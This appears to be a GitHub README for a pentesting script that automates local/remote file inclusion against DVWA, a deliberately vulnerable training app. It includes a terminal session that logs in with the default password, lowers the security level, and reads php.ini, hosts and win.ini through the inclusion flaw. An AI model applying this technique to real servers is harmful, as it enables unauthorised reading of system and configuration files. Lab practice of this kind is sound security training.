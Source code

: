           
		  Hi guys, this tool is to automate the Remote File Include process for DVWA script.

		  Notice, that you have just to add the ip that hosting the script and choose one of 

		  these levels to accomplish the process:

		  ("high", "medium", "low").

		  You have two choices to view the results after inclusion:

		  1- appearing on the terminal in case you hit (n) .
		  2- inside a txt file in case of (y), you can find it inside the folder .

		  here is an examples from my terminal :

		  xakep@pentester:~/Desktop/myscripts/owasp/web-vulns/Rinclusion$ python inclusion.py 

			[!] Usage: [IP] [Level]
			[!] The default password for the first time is: password

          xakep@pentester:~/Desktop/myscripts/owasp/web-vulns/Rinclusion$ python inclusion.py 192.168.43.5 low


			 ______     ____        ___    
			|  _ \ \   / /\ \      / / \   
			| | | \ \ / /  \ \ /\ / / _ \  
			| |_| |\ V /    \ V  V / ___ \ 
			|____/  \_/      \_/\_/_/   \_\
			                               

			 ____  _____ ___ 
			|  _ \|  ___|_ _|
			| |_) | |_   | | 
			|  _ <|  _|  | | 
			|_| \_\_|   |___|
			                 

			  Author: Reznov - Pentester and hacker
			  Website: http://xakepu.blogspot.com
			  Github: https://github.com/reznov11
			  Twitter: @pentester11  

			[--] http://192.168.43.5/dvwa/login.php, Response: 200

			[*] Damn Vulnerable Web App (DVWA) v1.8 :: Welcome

			[?] Enter the security panel

			[!] You're inside the security panel > Damn Vulnerable Web App (DVWA) v1.8 :: DVWA Security

			[+] Now change the security level to low

			[*] Security now is: low

			[--] Now time to read some critical informations from 192.168.43.5

			[+] Vulnerability: File Inclusion

			[--] Which file you'd like to read ??


			1 Dvwa php.ini file
			2 Read hosts file
			3 Read win.ini file
			4 Exit
			Please Select: 1


			Do you want to save results into a file y|n: n
			; This file attempts to overwrite the original php.ini file. Doesnt always work.

			magic_quotes_gpc = Off
			allow_url_fopen on
			allow_url_include on

			1 Dvwa php.ini file
			2 Read hosts file
			3 Read win.ini file
			4 Exit
			Please Select: 
